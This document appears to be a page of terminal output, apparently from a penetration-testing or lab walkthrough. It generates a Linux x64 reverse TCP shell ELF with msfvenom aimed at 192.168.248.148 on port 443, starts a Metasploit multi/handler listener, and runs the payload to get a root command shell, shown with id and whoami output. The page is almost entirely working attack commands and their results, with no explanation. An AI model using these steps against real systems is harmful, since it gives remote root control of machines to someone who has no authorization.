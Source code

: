 ```
└─# msfvenom -p linux/x64/shell/reverse_tcp lhost=192.168.248.148 lport=443 -f elf -o r443    
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: r443
```

```
chmod +x r443
```

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:443 

```

```
./r443 
```

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:443 
[*] Sending stage (38 bytes) to 192.168.248.148
[*] Command shell session 1 opened (192.168.248.148:443 -> 192.168.248.148:39956) at 2022-07-28 07:54:00 -0400

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
^C
Abort session 1? [y/N]  y

[*] 192.168.248.148 - Command shell session 1 closed.  Reason: User exit
```
